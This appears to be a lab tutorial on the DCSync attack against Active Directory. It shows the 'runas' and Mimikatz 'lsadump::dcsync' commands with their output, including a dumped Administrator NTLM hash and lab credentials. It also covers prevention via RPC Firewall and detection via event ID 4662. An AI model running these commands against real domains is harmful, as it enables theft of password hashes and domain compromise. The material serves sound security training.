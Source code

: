 ## Description

DCSync is an attack that threat agents utilize to impersonate a Domain Controller and perform replication with a targeted Domain Controller to extract password hashes from Active Directory. The attack can be performed both from the perspective of a user account or a computer, as long as they have the necessary permissions assigned, which are:

- **Replicating Directory Changes**
- **Replicating Directory Changes All**

## Attack

We will utilize the user Rocky (whose password is Slavi123) to showcase the DCSync attack. When we check the permissions for Rocky, we see that he has Replicating Directory Changes and Replicating Directory Changes All assigned:

### Step 1: Start Command Shell as Rocky

```
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe
Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky"
```

### Step 2: Use Mimikatz to Perform DCSync

To execute DCSync, we use Mimikatz. This example targets the user 'Administrator':

```bash
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf
  ```

Alternatively, we can use the `/all` parameter to dump the hashes of the entire AD environment.

## Prevention

Since DCSync replicates common operations in Active Directory, complete prevention is not achievable directly. However, **using third-party solutions like RPC Firewall** can restrict replication permissions to trusted Domain Controllers only, allowing replication only for essential accounts.

## Detection

Detecting DCSync is possible by monitoring for **event ID 4662**, as each replication attempt logs this event. To reduce false positives, ensure:

1. The event properties `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` are present.
2. Whitelist systems/accounts that need replication, such as Azure AD Connect.

### Example Event

When Mimikatz is used for DCSync, the following event may be generated:

- **Event ID**: 4662
- **Details**: Shows a user account initiating replication, which can serve as an alert to unauthorized DCSync attempts.